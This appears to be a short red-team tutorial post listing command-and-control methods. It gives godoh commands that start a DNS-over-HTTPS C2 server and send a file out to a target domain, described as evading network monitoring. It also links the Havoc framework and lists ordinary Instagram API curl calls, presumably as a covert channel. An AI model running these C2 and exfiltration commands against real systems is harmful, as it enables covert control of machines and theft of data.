 ```yaml
---
layout: post
title:  "Top C&C Methods(RTC0023)"
author: redteamrecipe
categories: [ tutorial ]
tags: [red, blue]
image: assets/images/589.png
description: "Top C&C Methods"
featured: true
hidden: true
rating: 4.5
---
```



# C2C Methods






## DNS-over-HTTPS C2

https://github.com/sensepost/godoh

1. **Starting the C2 Server:** This command starts the godoh Command and Control (C2) server, which listens for incoming DNS requests and commands from agents.
    
    
    `godoh --domain example.com c2`
    
    - **Description:** This command initializes the C2 server on the specified domain (`example.com` in this case). The server listens on port 53 for DNS queries and handles communication with agents.
    
2. **Sending a File via DoH (DNS over HTTPS):** This command sends a file to a target domain using DNS A record lookups.
    
    
    `godoh --domain targetdomain.com send --file path/to/yourfile.txt`
    
    - **Description:** This command encodes and encrypts the specified file (`yourfile.txt`), then sends it to the `targetdomain.com`. The file is transmitted via DNS queries, which are less likely to be blocked or monitored by network security systems.

## havoc

https://github.com/HavocFramework/Havoc



## instagram 

|ID|Title|Description|Commands and Codes|API Endpoint|HTTP Requests|
|---|---|---|---|---|---|
|1|**Authenticate User**|Authenticate the user to gain access to Instagram's API.|`curl -X GET 'https://api.instagram.com/oauth/authorize?client_id={app-id}&redirect_uri={redirect-uri}&scope=user_profile,user_media&response_type=code'`|`https://api.instagram.com/oauth/authorize`|`GET https://api.instagram.com/oauth/authorize?client_id={app-id}&redirect_uri={redirect-uri}&scope=user_profile,user_media&response_type=code`|
|2|**Get Access Token**|Exchange the code received after authentication for an access token.|`curl -X POST 'https://api.instagram.com/oauth/access_token' -F 'client_id={app-id}' -F 'client_secret={app-secret}' -F 'grant_type=authorization_code' -F 'redirect_uri={redirect-uri}' -F 'code={code}'`|`https://api.instagram.com/oauth/access_token`|`POST https://api.instagram.com/oauth/access_token`|
|3|**Retrieve User Media**|Fetch media objects from the authenticated user's account.|`curl -X GET 'https://graph.instagram.com/me/media?fields=id,caption&access_token={access-token}'`|`https://graph.instagram.com/me/media`|`GET https://graph.instagram.com/me/media?fields=id,caption&access_token={access-token}`|
|4|**Get Media Details**|Get details of a specific media object.|`curl -X GET 'https://graph.instagram.com/{media-id}?fields=id,media_type,media_url,username,timestamp&access_token={access-token}'`|`https://graph.instagram.com/{media-id}`|`GET https://graph.instagram.com/{media-id}?fields=id,media_type,media_url,username,timestamp&access_token={access-token}`|
|5|**Post to Instagram**|Post new media to the user's Instagram account.|_Note: Direct posting via API is restricted. Use Instagram's Content Publishing API._|_Not directly available_|_Not directly available_|
